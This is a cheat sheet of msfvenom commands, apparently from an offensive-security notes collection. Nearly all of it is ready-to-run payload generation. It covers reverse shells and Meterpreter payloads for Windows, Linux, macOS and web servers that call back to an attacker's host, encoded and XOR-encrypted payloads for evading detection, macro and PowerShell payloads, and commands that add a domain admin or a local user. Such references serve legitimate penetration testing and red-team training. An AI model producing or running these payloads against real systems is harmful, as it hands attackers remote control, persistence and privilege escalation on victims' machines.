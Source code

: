 # msfvenom

% msfvenom, reverse shell, metasploit

#plateform/linux #target/local #cat/ATTACK/REVERSE_SHELL 

## list - payloads
```bash
msfvenom --list payloads
```

## list - encoders
```bash
msfvenom --list encoders
```

## list - formats
```bash
msfvenom --list formats
```

## list - payload options
```bash
msfvenom -p <payload> --list-options
```

## cmd - Windows add domain admin (dll)
```bash
msfvenom -p windows/x64/exec cmd='net group "domain admins" <user> /add /domain' -f dll -o adduser.dll
```

## revshell - Linux x86 Meterpreter TCP
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f elf > shell.elf
```

## revshell - Linux x64 Meterpreter TCP
```bash
msfvenom -p  linux/x64/meterpreter/reverse_tcp LHOST=<ip|tun0> LPORT=<LPORT> prependfork=true -f elf -t 300 -e x64/xor_dynamic -o test.elf
```

## revshell - Windows Meterpreter TCP
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f exe > shell.exe
```

## revshell - Windows Meterpreter TCP Encoded
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LHOST> LPORT=<local> -e <encoder|shikata_ga_nai> -i 3 -f exe > encoded.exe
```

## revshell - Windows meterpreter HTTPS (non staged)
```bash
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=<LHOST> LPORT=<LPORT|443> -f exe -o /var/www/html/msfnonstaged.exe
```

## revshell - Windows meterpreter HTTPS (staged)
```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<LHOST> LPORT=<LPORT|443> -f exe -o /var/www/html/msfstaged.exe
```

## revshell - Windows Reverse Shell TCP (nc catch)
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<LHOST> LPORT=<local> -f exe > shell.exe
```

## revshell - Mac Reverse Shell
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f macho > shell.macho
```

## revshell - web PHP Meterpreter TCP
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f raw > shell.php
```

## revshell - web ASP Meterpreter TCP
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f asp > shell.asp
```

## revshell - web JSP reverse shell TCP
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f raw > shell.jsp
```

## revshell - web WAR reverse shell TCP
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f war > shell.war
```

## VBA 32bits
```
msfvenom -p windows/meterpreter/reverse_https LHOST=<LHOST> LPORT=<LPORT|443> EXITFUNC=thread -f vbapplication
```

## powershell 32 bits
```
msfvenom -p windows/meterpreter/reverse_https LHOST=<LHOST> LPORT=<LPORT|443> EXITFUNC=thread -f ps1
```

## DLL
```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<LHOST> LPORT=<LPORT|443> -f dll -o <dll|output.dll>
```

## Python - Reverse Shell
```
msfvenom -p cmd/unix/reverse_python LHOST=<LHOST> LPORT=<LPORT> -f raw > shell.py
```

## Bash - Reverse Shell
```
msfvenom -p cmd/unix/reverse_bash LHOST=<LHOST> LPORT=<LPORT> -f raw > shell.sh
```

## Perl - Reverse shell
```
msfvenom -p cmd/unix/reverse_perl LHOST=<LHOST> LPORT=<LPORT> -f raw > shell.pl
```

## Powershell 
```
msfvenom -p windows/meterpreter/reverse_https LHOST=<LHOST> LPORT=<LPORT|443> EXITFUNC=thread -f ps1
```

## Csharp - xor encrypted
```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<LHOST> LPORT=<LPORT|443> --encrypt xor --encrypt-key <key> -f csharp
```

# msfvenom Shellcode

## Windows Meterpreter Reverse TCP Shellcode
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f <language>
```

## Linux Meterpreter Reverse TCP Shellcode
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f <language>
```

## Mac Reverse TCP Shellcode
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f <language>
```


## MCreate User
```
msfvenom -p windows/adduser USER=<user|hacker> PASS='<pass|Hacker123$>' -f exe > adduser.exe
```
